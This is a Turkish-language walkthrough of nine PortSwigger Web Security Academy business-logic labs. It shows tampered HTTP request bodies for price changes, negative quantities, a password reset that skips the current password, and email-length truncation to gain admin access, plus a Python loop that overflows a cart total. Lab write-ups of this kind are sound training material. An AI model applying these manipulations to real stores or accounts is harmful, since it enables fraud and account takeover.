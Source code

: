 #### 1.Lab: Excessive trust in client-side controls

Bu labda wiener:peter kullanıcısına 100$ store credit verilmiş, alınması istenen ürün ise 1337$. Bu ürünü sepete eklediğimizde bir post request gidiyor ürünün fiyat bilgisi de giden bu post request üzerinden alınıyor:
```
productId=1&redir=PRODUCT&quantity=1&price=133700
```
Biz bu isteği değiştirdiğimizde ürünü daha düşük fiyatlara alabiliyoruz:
```
productId=1&redir=PRODUCT&quantity=1&price=10
```
Lab da bu ürünü daha düşük bir fiyata aldığımızda çözülmüş oluyor.


#### 2.Lab: High-level logic vulnerability

Bu labda uygulamanın kullanıcı girdilerine validasyon yapmadığı söyleniyor. Sepete eklenen ürünleri sepetten çıkarmak için aynı post isteğinin gönderildiğini ancak bu safer `quantity=-1` olarak değiştirildiğini gördüm bu da bana bu değeri istediğimiz gibi manipüle edebileceğimiz fikrini verdi. Almamız istenen ceketi almak için eksi sayıda başka bir ürünü sepete ekleyince fiyatı store credit sınırları içine indiribeliyoruz. Ardından checkout ederek sipariş veriyoruz.

Negatif sayıda istek gönderen post isteği:
```
POST /cart HTTP/2
...
productId=2&quantity=-10&redir=CART
```

#### 3.Lab: Inconsistent security controls

Bu labda carlos adlı kullanıcıyı silmemiz gerekiyor. Öncelikle `/admin` adlı directory'yi istiyoruz. Cevap olarak da bize bu dizine ancak `dontwannacry.com` email domain ismine sahip kullanıcılıların erişebildiği söyleniyor. Bir hesap açıyoruz ardından da email hesabımızı bu domain name değerinse sahip bir email ile değiştiriyoruz. Bu işlemi gerçekleştirince kullanıcı sayfamızda admin paneli ibaresi beliyriyor oradan da carlos kullanıcısını siliyoruz.

#### 4.Lab: Flawed enforcement of business rules

Bu labda kupon kullanımı açığı var
ard arda girilen  aynı kuponu kabul etmiyor ancak farklı kuponları ardarda olmayacak bir şekilde kabul ediyor.
aşağıda haber servisine kaydolursak %30 luk bir indirim veriyor.
bu kod ve yeni kullanıcı kuponlarını sıra sıra girerek sepetin değerini aşağı indiriyoruz
ardından sipariş veriyoruz.

#### 5.Lab: Low-level logic flaw

Bu labda integer sınırını aşana kadar sepetimize ürün ekliyoruz böylece sepet totali eksiye düşüyor
ben bu işlemi hızlandırmak için bir python kodu yazdım

Python kodu:
```
import requests
import re

# Target URL
base_url = "https://0aa400b703bf49d585eaeaf500aa00a2.web-security-academy.net"
cart_url = f"{base_url}/cart"
product_url = f"{base_url}/product?productId=1"

# Session cookie
cookies = {"session": "WunTDuqv6XxnE4JflAysFWMFirY2mBOY"}

# POST request data
post_data = {"productId": "1", "redir": "PRODUCT", "quantity": "99"}

def get_cart_total():
    """Sends a GET request to the cart and extracts the total price from the table."""
    try:
        response = requests.get(cart_url, cookies=cookies, allow_redirects=False)
        response.raise_for_status()  # Raise an exception for bad status codes
        html_content = response.text
        # Use regex to find the total price within the <th></th> tags in the <tr> containing "Total:".
        match = re.search(r'<th>Total:</th>\s*<th>\$(\d+\.\d+)</th>', html_content)
        if match:
            return float(match.group(1))
        else:
            print("Warning: Could not find the cart total in the expected table format.")
            return float('inf')  # Return a large positive value to continue the loop
    except requests.exceptions.RequestException as e:
        print(f"Error during GET request: {e}")
        return float('inf')

def send_post_request():
    """Sends a POST request to add an item to the cart."""
    try:
        response = requests.post(cart_url, cookies=cookies, data=post_data, headers={'Content-Type': 'application/x-www-form-urlencoded'}, allow_redirects=False)
        response.raise_for_status()
        # You might want to check the response for any errors or confirmations
        # print("POST request successful.")
    except requests.exceptions.RequestException as e:
        print(f"Error during POST request: {e}")

if __name__ == "__main__":
    print("Starting to send POST requests until the cart total is negative...")
    while True:
        current_total = get_cart_total()
        print(f"Current cart total: ${current_total:.2f}")
        if current_total < 0:
            print("Cart total is negative. Stopping the requests.")
            break
        send_post_request()
        # You might want to add a small delay to avoid overwhelming the server
        # import time
        # time.sleep(0.5)
```
Bu kod cevap total eksiye düşene kadar ürün ekliyor

ardından totali store credit değeri arasına çıkarmak için başka bir ürün ekliyoruz ve oluyor.

#### 6.Lab: Inconsistent handling of exceptional input

Bu labda `exploit-0a0700eb03d9f83e81225b1b0102009b.exploit-server.net` domain ismine sahip tüm mail adreslerine gönderilen emailleri görebilmekteyiz kişisel emai server saysenide. Bu site string uzunluğu gözetmiyor. Bunu da sömürmek için 255 karakter uzunlukta olan bir email adresi giriyoruz 255inci karaktere de `dontwannacry.com` ibaresinin 'm' harfini getirdikten sonra kişisel mail server domain adresimizi yazıyoruz. bu sayede hem site bize admin yetkisi veriyor hem de registration email bizim server ımıza geliyor.

#### 7.Lab: Weak isolation on dual-use endpoint

Bu labda yine kullanıcı girişi doğrulanmıyor.
Bu sebeple şifre değiştirdiğimiz post isteğinin datasını aşağıdaki gibi değiştiriyoruz:

orijinal data:
```
csrf=NQakQZHiREkGfphoPV8s1hxZZFFHofs8&username=wiener&current-password=peter&new-password-1=tender&new-password-2=tender
```
değiştirilmiş data:
```
csrf=NQakQZHiREkGfphoPV8s1hxZZFFHofs8&username=administrator&new-password-1=tender&new-password-2=tender
```

admin paneline erişip carlos addlı kullanıcıyı siliyoruz.

#### 8.Lab: Insufficient workflow validation

Bu labda yanlış varsayımlar yapıldığı söyleniyor. Bu varsayım ise `POST /cart/checkout` isteğini attığımızda siparişimizi doğrulamak için bir `GET /cart/order-confirmation?order-confirmed=true HTTP/2` isteği attığını görüyoruz. Eğer biz valide edilmemiş bir Post request ardından hemen bu isteği atarsak siparişimiz kabul görüyor.

#### 9.Lab: Authentication bypass via flawed state machine

Bu labda eğer login ederken gelen role selector requestini droplarsak default olarak kullanıcımıza administrator rolünü veriyor zira ancak administrator credentials değerlerine sahip biri ancak rol seçmeden ilerleyebilir. bu sebeple de bize admin yetikisi vermekte.

